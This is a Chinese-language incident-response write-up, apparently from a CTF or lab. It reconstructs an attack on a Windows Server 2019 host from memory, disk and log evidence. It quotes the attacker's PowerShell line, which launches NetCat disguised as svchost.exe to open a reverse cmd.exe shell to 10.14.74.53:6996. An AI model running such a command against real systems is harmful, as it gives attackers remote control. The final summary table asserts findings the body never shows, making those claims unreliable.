

## 初始环境与取证数据

```bash
memdump.mem  pagefile.sys disk.dd
```

## 内存取证分析（Volatility3）

### 系统指纹识别

```bash
python3 vol.py -f memdump.mem windows.info
Kernel Base	0xf802388a7000
DTB	0x1aa000
Symbols	file:///home/ubuntu/Desktop/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/94E2AE6323B686F1F4B25BA580582E04-1.json.xz
Is64Bit	True
IsPAE	False
layer_name	0 WindowsIntel32e
memory_layer	1 FileLayer
KdVersionBlock	0xf80238ca4f08
Major/Minor	15.17763
MachineType	34404
KeNumberProcessors	2
SystemTime	2024-05-14 22:07:36
NtSystemRoot	C:\Windows
NtProductType	NtProductServer
NtMajorVersion	10
NtMinorVersion	0
PE MajorOperatingSystemVersion	10
PE MinorOperatingSystemVersion	0
PE Machine	34404
PE TimeDateStamp	Sat May  4 18:48:48 2030
```

通过内核版本`15.17763`确认系统为Windows Server 2019 (1809)，系统架构为64位环境，为后续分析提供基础环境上下文。

### 查看进程信息

```bash
python3 vol.py -f memdump.mem windows.pslist
```


**关键发现：**

- PID 1036的`svchost.exe`父进程应为`services.exe`(PID 804)，但实际父进程为`powershell.exe`
- 进程路径指向非常规目录`C:\Tools\svchost.exe`（正常路径应为`C:\Windows\System32`）

### 查看创建进程的命令行

```bash
python3 vol.py -f memdump.mem windows.cmdline
```


`svchost.exe` 的文件路径并不是默认的 `C:\Windows\System32\svchost.exe`，而是位于 `C:\Tools\` 目录下

很明显这是伪装成系统进程的恶意程序，用于与外部IP地址进行通信。

下面还有一个通过notepad打开的`part2.txt`文件，文本内容可能通过base64编码。

通过访问`part2.txt`所在目录，我们还发现了一个`connector.ps1`文件

```bash
Start-Process -NoNewWindow "C:\Tools\svchost.exe" "-e cmd.exe 10.14.74.53 6996"  
C:\Windows\system32\NOTEPAD.EXE $args[0]  
```

可以得知攻击者用于接收反弹SHELL的IP是`10.14.74.53`

**攻击链重构：**

1. 通过`powershell.exe`启动伪装成系统服务`svchost.exe`的NetCat后门
2. 建立与C2服务器`10.14.74.53:6996`的反向连接
3. 利用记事本进程加载加密载荷`part2.txt`实现载荷分离

## 使用 FTK Imager 分析磁盘

### 定位恶意文件

查看从内存中找到的文件`C:\Tools\svchost.exe`


通过VirusTotal中检测提取的SHA1，可以确认此程序为NetCat工具


导出`C:\Windows\System32\config`下的注册表文件与`C:\Users\Bobby\NTUSER.DAT`

导入`Registry Explorer`

因为`svhost.exe`从`AutoConnector`目录下载，所以尝试在注册表中进行搜索`AutoConnector`


成功定位`AutoConnector`的位置

使用VirusTotal进行分析


**持久化机制：**

- `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\bam\State\UserSettings\S-1-5-21-1966530601-...-1008`存在恶意启动项
- 注册表键值指向`AutoConnector.exe`工具

### 分析系统日志

从`C:\Windows\System32\winevt\Logs\`导出事件日志

因为运行的脚本是Powershell脚本，所以仅导入包含Powershell关键字的日志到`EventViewer`即可

但未搜索到与`connector.ps1`相关的日志。

### 动态行为沙箱检测

导出恶意文件所在文件夹

组策略中开启`Turn on PowerShell Transaction`、`Turn on PowerShell Script Block Logging`、`Turn on Script Execution`


运行恶意程序后查看日志

获取到第一部分载荷



结合之前获取的part2.txt经过base64解码成功获取到原始载荷，确认其为数据渗出的加密密钥。

## 攻击链全景还原

| 阶段       | 技术点       | 取证证据                       |
| ---------- | ------------ | ------------------------------ |
| 初始访问   | ？           | ？                             |
| 执行       | 服务伪装     | C:\Tools\svchost.exe进程树异常 |
| 持久化     | 注册表自启动 | Run键值指向恶意后门程序        |
| 防御规避   | 日志清除     | Security.evtx日志时间断层      |
| 命令与控制 | 反向Shell    | NetCat连接10.14.74.53:6996     |
| 数据渗出   | AES加密隧道  | 内存解密Meterpreter配置        |
